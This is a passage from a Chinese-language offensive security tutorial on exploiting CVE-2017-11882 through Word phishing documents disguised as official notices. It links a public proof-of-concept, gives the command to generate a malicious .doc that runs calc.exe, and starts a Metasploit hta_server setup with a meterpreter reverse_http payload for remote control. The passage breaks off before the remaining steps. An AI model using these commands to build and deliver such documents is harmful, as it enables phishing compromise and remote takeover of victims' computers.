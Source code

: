 
### 0x05.CVE-2017-11882

cve-2017-11882漏洞也是word钓鱼的一种方式，相比宏病毒更加的隐蔽，把word伪装成某某通知文件，目标点击后就直接可以直接上线。

利用cve-2017-11882弹出计算器：

下载poc：[https://github.com/Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

生成带有病毒的word文件

```plain
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

[![](assets/1701612327-44181b35c0836b28e610b8afab0eba0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173332-d5d526f2-1f04-1.png)

双击test.doc，弹出计算器

[![](assets/1701612327-5d86e75af87a46881a1691da92047bc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173352-e205e7a4-1f04-1.png)

利用cve-2017-11882上线msf

步骤一：使用exploit/windows/misc/hta\_server生成病毒

```plain
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_http
set lport 4444
show options
exploit
```
